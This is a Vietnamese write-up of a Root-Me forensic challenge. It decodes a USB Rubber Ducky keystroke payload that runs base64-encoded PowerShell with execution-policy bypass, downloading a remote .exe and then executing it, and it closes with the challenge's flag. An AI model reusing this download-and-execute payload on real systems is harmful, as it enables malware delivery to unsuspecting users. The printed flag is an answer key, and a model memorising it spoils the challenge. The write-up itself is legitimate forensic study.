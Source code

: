 ### Description
> The CEO’s computer seems to have been compromised internally. A young trainee dissatisfied with not having been paid during his internship arouse our supsicion. A strange USB stick containing a binary file was found on the trainee’s desk. The CEO relies on you to analyze this file.
### Link challenge
> https://www.root-me.org/en/Challenges/Forensic/Ugly-Duckling
### Solution 
- Sau khi đọc description với tải file về mình cũng không nhận định được là mình phải làm gì, rất may sau 1 hồi tìm google mình tìm thấy [trang này](https://shop.hak5.org/products/usb-rubber-ducky)
- Sau đó mình tiếp tục tìm hướng để xuất dữ liệu từ usb ra theo tool [được tìm từ github](https://github.com/JPaulMora/Duck-Decoder)


```
                                                                                                                                                                      
┌──(kali㉿kali)-[~/Downloads/Duck-Decoder]
└─$ python2 DuckDecoder.py display file.bin 
iexplore http://challenge01.root-me.org/forensic/ch14/files/796f75277665206265656e2054524f4c4c4544.jpg

CONTROL S

%USERPROFILE%Documents796f75277665206265656e2054524f4c4c4544.jpg
                                   

DOWN
DOWN
DOWN
DOWN


DOWN
DOWN

powershell Start-Process powershell -Verb runAsPowerShell -Exec ByPass -Nol -Enc aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQAuAEQAbwB3AG4AbABvAGEAZABGAGkAbABlACgAJwBoAHQAdABwADoALwAvAGMAaABhAGwAbABlAG4AZwBlADAAMQAuAHIAbwBvAHQALQBtAGUALgBvAHIAZwAvAGYAbwByAGUAbgBzAGkAYwAvAGMAaAAxADQALwBmAGkAbABlAHMALwA2ADYANgBjADYAMQA2ADcANgA3ADYANQA2ADQAMwBmAC4AZQB4AGUAJwAsACcANgA2ADYAYwA2ADEANgA3ADYANwA2ADUANgA0ADMAZgAuAGUAeABlACcAKQA7AApowershell -Exec ByPass -Nol -Enc aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAGMAbwBtACAAcwBoAGUAbABsAC4AYQBwAHAAbABpAGMAYQB0AGkAbwBuACkALgBzAGgAZQBsAGwAZQB4AGUAYwB1AHQAZQAoACcANgA2ADYAYwA2ADEANgA3ADYANwA2ADUANgA0ADMAZgAuAGUAeABlACcAKQA7AAoAexit


```
- Thấy rằng 1 lệnh powershell được chạy, decode base64 để xem nó là lệnh gì 
```
aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQAuAEQAbwB3AG4AbABvAGEAZABGAGkAbABlACgAJwBoAHQAdABwADoALwAvAGMAaABhAGwAbABlAG4AZwBlADAAMQAuAHIAbwBvAHQALQBtAGUALgBvAHIAZwAvAGYAbwByAGUAbgBzAGkAYwAvAGMAaAAxADQALwBmAGkAbABlAHMALwA2ADYANgBjADYAMQA2ADcANgA3ADYANQA2ADQAMwBmAC4AZQB4AGUAJwAsACcANgA2ADYAYwA2ADEANgA3ADYANwA2ADUANgA0ADMAZgAuAGUAeABlACcAKQA7AA ===> iex (New-Object System.Net.WebClient).DownloadFile('http://challenge01.root-me.org/forensic/ch14/files/666c61676765643f.exe','666c61676765643f.exe');
```
- Lệnh này tải xuống tập tin 666c61676765643f.exe từ đường dẫn http://challenge01.root-me.org/forensic/ch14/files/666c61676765643f.exe

```
aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAGMAbwBtACAAcwBoAGUAbABsAC4AYQBwAHAAbABpAGMAYQB0AGkAbwBuACkALgBzAGgAZQBsAGwAZQB4AGUAYwB1AHQAZQAoACcANgA2ADYAYwA2ADEANgA3ADYANwA2ADUANgA0ADMAZgAuAGUAeABlACcAKQA7AAoA 
==> iex (New-Object -com shell.application).shellexecute('666c61676765643f.exe');
```
- Lệnh này thực thi tệp vừa tải 
- Tải nó xuống bằng wget và load vào ida thì thấy flag 
- ![iage](image/1.PNG)
> RubberDuckyFail3D